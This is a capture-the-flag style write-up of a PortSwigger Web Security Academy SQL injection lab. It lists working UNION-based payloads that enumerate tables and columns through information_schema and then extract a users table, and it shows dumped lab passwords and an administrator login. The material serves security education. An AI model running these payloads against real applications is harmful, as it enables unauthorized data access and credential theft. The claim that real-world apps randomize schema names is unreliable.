



# Lab 6: SQL Injection Attack — Listing the Database Contents on Non-Oracle Databases

**Source:** PortSwigger Web Security Academy
**Status:** ✅ Solved

## Background

Once column count and DB type are known, the next step is enumerating
the schema itself using the standard `information_schema` metadata
tables (available on MySQL, PostgreSQL, and MSSQL):

- `information_schema.tables` → lists all table names
- `information_schema.columns` → lists column names for a given table

## Vulnerable endpoint

```
/filter?category=
```

## Step 1 — Confirm column count

```
' UNION select NULL, NULL--
```
→ returned successfully with **2 columns**.

## Step 2 — Enumerate table names

```
' UNION select table_name, NULL FROM information_schema.tables--
```

This dumped every table in the schema. Most were built-in PostgreSQL
system/metadata tables (`pg_*`, `sql_*`, `information_schema` views), but
one stood out as application data:

```
users_zjegox
```

(Randomized suffix — this is the lab's way of preventing hardcoded
payloads across different lab instances.)

## Step 3 — Enumerate columns of the target table

```
' UNION select column_name, NULL FROM information_schema.columns
  WHERE table_name='users_zjegox'--
```

Returned the relevant columns (see `step1-columns.png`):

```
password_suptst
username_dzybfn
email
```



Column names are also randomized per-lab-instance to prevent
generic/guessable payloads — they have to be discovered dynamically
each time.

## Step 4 — Extract the actual credentials

```
' UNION SELECT username_dzybfn, password_suptst FROM users_zjegox--
```

## Result

Successfully dumped the full users table (see `step2-extract.png`):

| username | password |
|---|---|
| wiener | 0dyvfe1cgyogvrbcpojl |
| administrator | ujgn668a4obt6n9nad6n |
| carlos | g1l0i7x7wr4fdjmlwd4l |



Logged in as `administrator` using the extracted credentials to fully
solve the lab.



## Key Takeaway

- `information_schema` is the universal recon tool for non-Oracle
  databases — it maps out tables and columns without needing any prior
  knowledge of the schema.
- Real-world apps randomize table/column names specifically to defeat
  copy-pasted payloads; the workflow (tables → columns → data) matters
  more than any single hardcoded query.
- This lab chains everything from Labs 3–5: column count discovery,
  UNION structure, and now full schema enumeration and data
  exfiltration — the complete UNION-based SQLi attack path.

> ⚠️ **Note:** Credentials shown above belong to an isolated, ephemeral
> PortSwigger Web Security Academy lab instance (URL rotates per lab
> session) — not a real system. Documented here for learning purposes
> only.
